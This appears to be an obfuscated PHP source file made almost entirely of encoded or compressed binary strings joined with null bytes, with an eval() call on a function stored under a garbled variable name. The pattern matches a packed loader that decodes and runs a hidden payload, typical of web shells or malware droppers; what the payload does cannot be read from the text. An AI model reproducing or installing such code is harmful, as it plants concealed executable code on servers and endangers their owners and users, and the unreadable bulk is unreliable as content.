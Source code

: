 P…€–ôWùO(ìÚ¬Öäé«”DŠd”/%‘„{±ÔÍÕ¢7“µž9´Å×k˜1Ø¶²%ÓaâUšÀ‰Œ³å²ì,Ö;!¸º¤öî‘_JH¯ËÀ–p+n„_
È JY\\„³Z®?˜† Hò•}T7›t Ì haöPjÍ‚R=Ûcq"ÝéŸwí™°ÜÓPj3_½[Ödb=7›»@àkH-V–MÍ’ Öƒ™d9ö;Å£¾j‰i×ƒîãì´òË&”ÌÊ9úí¡ßëÐp(õ^' . "\0" . '€5›MƒìSO‰I¡ÜÔ4ÚåÍžw3>%»{=}È"tCæ}mRåJàcàjª	3õœŒÚ=ŒWg0_–AÞ<®‹¼ZV´±ˆ¡—HDÆòÄçí½^}¶³vOfšöÃP\'þ’§0DckáP/^Ó»hûEËÄ¸õ
çÝHÍ“„ú¹Ç¢©îW³æˆ0ÎªÏ×àøm	ÅÃ­dØdš HOX’ª¨1—·‰' . "\0" . '\'2ŠƒÇ>ù' . "\0" . '©.ñ÷å2/ŸV˜âYÙ6µÜseuÕ%G©†Œæã»NC4‡Õå›ûüÞËÊJv¥#8æç®^?ÖMî«Ý:JÒŠ;Âœ2ØÈJÂ_2Ío!}Ú]¯œ«)¼
ö¼cbNëóä——Þ¤{8ˆâ´¢’ÉÎµ0gaŽ¾Š8s„·w"Ù8ÿUÉûÿ2És{ ’Í?²<˜û2U#`õf´®É`£6ž‡T÷~@•ˆ™[5„Ög(Ü<P$¥+—ž§-§¼FðÂt20=HÆ£°+¾·»Óz3ÃÀo7&¨Ñ§ŒØ£›?kNø;=kß.¨ÖÃ|ÕøªÞÀXÓK_<Ï±ÆÖÒ“½òfU)÷ÿ~1aÙ@šïPè’]L}ªó¼ê}È
hOÐë™*É˜0JÈ™ø£99_Œ».?‚7Z”ZÊ' . "\0" . 'Ù#óþÐ±Ÿ½ÿÝTW¡¾Ää¼£­¼9“Pã™ß®&²C¼MÐ‡¾øyúÅ¤Uðs‘–Œ¸EÚý›B‘f\\ÎýêâÝçþãî5TþÇ/¿YÈpWè€Gt©0×¥·‰ãØðÝdg	\\cŽquóæƒéšáë)!£ãÝ¸†-5±ÿûÑ=N>hPÑÓçñ<ƒJÍ_sš/Å‘Ì¶’Í¿ú¯çU
œ‰æm8;ÑÚDV' . "\0" . '_ÄèA;sæ¬×´Ž2urçÊ©QÊ¶cUOÆ+ƒ·¡?<ž‰‚m­íò(,¥ê‡‹Ø¼ÁYs±§9U2>vóèBö¨Ä¾Ÿ ïxÓGÖøw¾¥ÜÄ¤M.?E‘Õ«,¥µØ3?ÎåÇðˆ§d¤‡Ôm8ëÇßælW-‹ŽÈ­\\¯èpó|›‘!_c ù­¾¡KHÃäžÉ‘»¼Ntˆ¶Çn»<âðîEðâkãæÉ2àöç™.¶×¦IWÕ/9ÌÙ
ø6­éòô^Øï¥>¡0Íê1ið)nI»f‘¸@Í*' . "\0" . 'øR:E¥ÑŒþj\\EK‘¦.´DÖÀk¦1Ö/†ŸyqÝÒ>9˜<Þ9üQî}.›Ïnmoä¼R|ö}ÐmÕ‘ªÔ26`¥4\'ÜOp…
¦éòüTá¤´ÐZ·—b‡¨¨ŠÚ÷$åÜ,•ñçûý24jš¤ÔêèK7«z­KO†öÚeü›FæêÉkïCE6l«É9i>£µ‘86¶%ÅsÌUÄl&:&zŠò{aø»ÛCbräà>_ü$4öˆŽ¼×#TrŸŠDE1¾&s°î
)Ÿö‡Vó¿£mex&™)À8„@0ân‘óµô1¸ö#ÈE˜vcU}à“ÑíÂì—\'/{mÙ,' . "\0" . 'i‘„^K´w¡í;’¥´J†Ê<•½ÔUaUH_ç\\ÂCøn\\g(S¾»kŽiuSŒ‡ÄíGø¯«CþO*Ä5KðÑº²ú;]' . "\0" . 'ßÚš' . "\0" . 'úûÇI' . "\0" . 'ç›Wu:=Æâ¯;:ÇårOÏ,&—Õ’³ ë=ŠÓs}—êÌ7#\'¡Ü÷þQã¼æ—®’SìuËfñø”7 cëötúnóù½CÏ’Mƒ¾ZeÒL,ßÕ²½áÎv¹úëÏqP#Í	.Fðú
Å‘U˜ÎìJ.ú|sÒøöéþ:jz ‚à€¢Ë3Ø1¯´P_' . "\0" . '°Ý(i§‰+±OIÜ1›9P£ zÌ¤¸s_ÇoVÄÙ–ŠÏÚ<˜Þ+É‚]d³þb6°0œìµ…÷ÉçEKpPT)¿ŸNù¯?©Ú	å8y/;aóÞ\\ùIã~6y¢Y¿±Ï±õÖL¿Y´…I÷0ÿøìÀY3£Gynš³ïS®½—JÓ‚7ý4qåIêÕk‹·.SsªUÒ„mp‚wFÔ5‹‹¤š.“ÉT9ÍôôhóŸQñ7I
öäûÙîQ³¢Y€š‰æœ·ú«˜µÞæ³°í×lßÙ•HùKÖVkîc4kÎßsŸ\'fW¦*ÚçÁÂ©‰…ñjƒ˜¤«H]¸*!K/º¶•‡§ÓìnJ61âÏ	ê1€˜ Á9\\×8ÁË0žoxC2-4$bûxù¿Tß%ä5+¶‰ÒªcÆ“7È€u˜çMý»%ÝA`±ÃhSëoÏ[à>ª7º"Mi;S=lœîÁo,æYu×åÌN²é›à	ç”yI’P.k6[êÆí
šÉ¼¬áŸŽÿÙ²çž7¶2—WàìÛWÓÍ¤²w‹µy\'=œ.a«¥ ¬¾¶¡kJ—U.ù–†SÓS$—sì[·Œ2¯èhˆKÕNŠý–J+û>PF?TÃD:þák|Éà«î¨—µ‚²ü¾¸\'$£Ó—õ Z5Ù­Ì°Oø“GT›ž“åÅë:ÊGæÃ´yÿÌÏ¹ŒJ±Â1°ä\\àëÄm·"gy;6©M£Y…Ø=cÏx’"î]Vú¸NBïÌyDÐÍµüü‘{1&AV¾=•CbbP…šaj9u³»"ÿq¢¥Š¢²‘³)».’†•áRÓ‚Ó7G_®Ñ—ÉƒJ&½Ç8>kÉø<òÛö!xçXt¤Noõv?÷·¥Ø_Z›Ñ½)2{#ˆ_4Èu?¯!Yƒ³•@Ÿ©§Íc&Ç‹À?$ÃåëYBë‚žâ	˜´‘¬SÅÙþ?9¿ÑS´|Ñ3-í$³Ì0ÜøCgÛkˆÊÕöí<9\\–ªÕé¡Žžz<Qéñ²òçù\\àÄ3ž¶Áî¼*Gæ „þµüŽ\'=4ÞËRÔó¨!àöž«üš$c+äÙ_ó
Û‚\'î}sœ_GOuöœ¹Ä>öêTƒ\\+˜~´gPSL]®!·ÃçAŽ‹ƒÉq×ûÈKÞLC·tÕHVº0üð˜Ú)š,¾cž„ðTún©@O,£ú=òÈ£‚%y~+ñ)1Å¾ä`À˜=!ÇdÎëM‰þÑÓ……ÞnÜ¤c-ç»©k¯õËõO´K\\âä%žòjDk«&‘¿¯½Œ­!é|ëÂ]B¢^,	´€Pê÷P>.6nRïO€îÞšÖÈŠ15ƒko	¿sn/£Ú^˜E.\\þZ»üœ1ð±€8M<&à]úÝ–KM=s²~ÛÆOñÖPÝÂíxø$»I¨(Vf:)ï6ˆsNZÀëy½ÚÖúàåp/n>¥PÁ;wöå«¡2TXáŸˆÍ2/6\\Y—ìH—ÿëÚrQÊöÇP×EÊÈ­yZ‰1¬ët¹(ÌÞÍ¶™ò
â.‚8°3kÌýÉ¸ùóÇ3yÍ!©|x¡+žv|ëA«3¼ôàù™O`óÆâÓJe"Ûá6*p_45[ÖÖ²;µ³:­Ùfs™Ï½f¥½/86$ú|· 4âÑÈñ&IÌ®vYö©Á#B¬82
©>¿hÖÀ6"Ò\\Ì Çƒ á?|./?
køtO_Rú[ÒÅfX%Ò·Ù2‹9\'ÉÚlIÏ’yþk¢éãÐ$±½G?]\'úÄ:&Õ¶¬^Rë‰»±=4¼¾Ë_×ãBÄÜìln^,*ŠèÏ…ßÐa%9õÏåhŸ:åès}7Ò8ÚTl¾Jß€Q<Ãwoæ±ó“Þž½~Œ[§>øÆSO\';ñ7ËPp/ ›’µä
¹ï;r†Ï,&J@U%µzòHõöãBÞ‡þ¶\'Û¶c£þ¸˜Y"ÅR9³.}¢O_úê‹V¹½Ê6{egax©•÷ ícV¦>òªqG\\¯ÐJD½~	üDKT’Ìg“õŽS\\d]Y÷üý™ÛùávŸaG#¨ú(ÍâòûÜŠóA+…Ï_ŠRõ¶–ß¬9ïþÀe	ýSÍ»ŒK/!þï5‰,÷úåïèq9..Yî¨¶^9K,Úcã€æã®ŒOˆqZ’“áÇ:[ðqãã·AÜm)…ÇüžN¬šãßßÿBÿ±àü·	¿¬·ì^€¥À"²dÂ@f¸:3\\ÊCÂÿ°(î' . "\0" . '' . "\0" . ''))^0);eval($öÈâ˜('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'µ˜ePÜÍ“ÇO 
°ø²èâîÜýGàîš‡,	Ü]Èâ%¸kpX ¸[Üó¿»Ü‹«ºª»›73ÓUÝóùvOUWµ¤„˜¤›.cüÞ.Bœ…6›Ä	¢¸éÿÙXþ7ç\'±éxUŒm•aMV7Ë»«®µøÏúåÑ‡V½f{RÀÑ‰»+ûí6ñf‹·{·wôo>uØmÌn_·ý¤»_Ê²Ý\\Y>Å7›ß¾på­vêðfûõgøÎ}eeÐ1àMÐé¶ÜL¦â‰VyßØ~¸2”þpeV…Yqî˜áò ¾1AUÂ´FdÍÞnÊ<,Ýúör‘‘åæÈEnUžá@E‚¼[Z¸b›™}8Eõ\\ÙéÏ„;Zsâï”F‡ã:ZÅ
+‘ýl¥,5SBäÜ]o£Õfd§,vdÆæËÐgê!äPVÚz–§\\1¼\'åXeù•K#iºèÉU×Õð‚Þ9)*¾"`Ù’ÍwvJœtHù–í;°,uý½“ÔtŒiPK5Ø:½¹º›ˆ2nk­ùÁ÷SäÍéž!S;YÁ½——ësA¤X–Éá½¿lv±¦<^ÎÕôžÈ!¸W³š[W|ãÏØ–œz4\':ó
„„G}÷2_ÛÕJòài
Ï)¯”§Æw):sBRF€…Ün‚»9Ù¹ÿiuBV:S>–‰vQÎ,À$æ%éïf¬#¡ž1L-ö]]ñ4uqˆ¯¿Êý6·¾éMà' . "\0" . '“Ä‡ä·OËq–”„ˆZOon¯"¶¨…;
Åûn‡ç.àß7]2þ¡s*þA4ù,;Š:Ówò8)êÂ.$uuª–nÃ®ØIîƒé¦I%Y}áÞ\'¦µ­fœ©ç¯PùÜ’}ƒöI¬Í½­3ßlÙ³Y‰ÓÑÙ®Gt&²,ÃÂ' . "\0" . '–¶“Ø~¸Up!f°oÖÔ5B¥U÷¾žªYNœ.¿Êm6 —Ù©ê[	À²/nA¹cÖ„©½ÑîcãÞ²Ë%¤ùI,pÃÌ>|]‡’Á½}h¨™U++¿@#²
½ÿœ÷,ÔKjùŠ#ð\\Û8ÈUHÓÓL¾dgÃ:~€õoö¦º³áê<Ö&7j‹~À)¦r‰ß…M4J¿—PÏÌîˆ|ÍûÁýß¹	¥Fƒ§—ïou‰\\9ÌšÄv™ãôD¿Üg8‘‡X	_­qô–ŽUM„rßxñG1á9š– ãÉ	ùñöÒ9³8!Ì
óâÎ’Ú½/xç|ê‹uN,¦âÖ}’ÀÄv2ž¨JóàVSŸ¥ùuí³nµ*F¼f©ŒÙ?žü%Tµ÷]YkóõWº?qÖãŠf?ÇŠAdb“CL' . "\0" . '¹™Ué€}ÆrüÕBv¢_–ÚFÄ]¾¨×ByÌôÃê)öáŒŸIj¿âÆ!®N®šªÜŽîyÔÓ1ÈgÙ¹Y*‹…ßOÍ×¥Úž¥J,ÚhÒPºYV‡×Þ©CÓ/Íw0ä¿Ñë©æö¥X4¸e}[~UˆaŽ]iJÅü›‡.µ|¨zYßGÔì5("O